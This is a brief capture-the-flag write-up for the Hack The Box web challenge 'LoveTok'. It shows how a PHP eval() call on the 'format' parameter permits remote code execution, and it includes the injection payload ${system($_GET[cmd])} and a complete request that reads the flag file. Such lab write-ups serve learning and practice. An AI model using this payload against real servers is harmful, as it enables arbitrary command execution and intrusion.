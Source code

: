 Challenge: LoveTok (HTB)<br>
Category: Web  <br>
Difficulty: Easy  <br>
Vulnerability: Remote Code Execution via PHP eval() function (system() injection) 
<br>
<h1>Description</h1>
The “format” parameter is passed directly into a PHP eval() call.  
By injecting `${system($_GET[cmd])}` into “format”, you can execute arbitrary shell commands on the server.

<ul>
  <li>Send a GET request to http://{HOST}/?format=${system($_GET[cmd])}&cmd=cat /flag* to read the flag.</li>
  <li>Extract the flag file path from the response.</li>
</ul>
